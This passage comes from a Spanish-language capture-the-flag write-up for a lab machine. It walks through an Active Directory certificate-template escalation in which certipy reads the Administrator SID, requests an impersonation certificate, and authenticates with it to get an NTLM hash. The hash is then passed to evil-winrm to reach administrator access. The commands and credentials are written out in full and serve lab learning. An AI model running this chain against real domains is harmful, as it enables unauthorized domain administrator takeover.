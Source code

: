 ```
python3 /home/bunzo/.local/bin/certipy account -u 'BANKING$' -p exploit -dc-ip 10.129.234.44 -target 10.129.234.44 -user Administrator read
```
*Parametros:*
	`account` Indica que se va a trabajar con **cuentas de Active Directory** (crear, leer, modificar, eliminar atributos, etc.).
	`-user Administrator` Especifica que querés actuar sobre la cuenta Administrator.
	`read`Acción: leer atributos de esa cuenta (por ejemplo, descripción, SID, grupos, SPNs, etc.).
![[Retro24.png]]
Nos da el objectSid que lo vamos a usar a posteriori


Ahora con todos los datos que ya recopilamos vamos a hacer la solicitud para descargar el certificado

```
python3 /home/bunzo/.local/bin/certipy req -u 'BANKING$' -p exploit -dc-ip 10.129.234.44 -target 10.129.234.44 -ca retro-DC-CA -template 'RetroClients' -upn 'administrator@retro.vl' -sid 'S-1-5-21-2983547755-698260136-4283918172-500' -key-size 4096 -debug
```
*Parametros:*
	`req` Solicita un certificado a la CA
	`-ca ` Nombre de la Certificate Authority en el dominio.
	`-template` Plantilla de certificado que se va a usar; en laboratorios suele ser mal configurada para permitir enrollment de cualquier usuario.
	`-upn` Usuario objetivo que queremos impersonar con el certificado
	`-sid` SID del usuario objetivo, para que el certificado tenga la identidad correcta.
	`-key-size 4096` Si no poniamos este valor, nos daba un error por el tamaño de la key
	`-debug` Muestra información detallada de la operación para diagnóstico.

![[Retro28.png]]

Ahora nos vamos a utentificar en el dominio usando el certificado enves ed una contraseña tradicional
```
python3 /home/bunzo/.local/bin/certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44
```
*Parametros:*
	`auth` Indica que se va a utentificar con un certificado
	`-pfx administrator.pfx` Es para indicar el archivo que contiene el certificado

![[Retro29.png]]


## Conexion a la maquina con [[evil-winrm]] usando el Hash

```shell
evil-winrm -i 10.129.234.44 -u Administrator -H 252fac7066d93dd009d4fd2cd0368389 -P 5985
```

Ya somo el usuario administrator y podemos catear la flag
![[Retro30.png]]
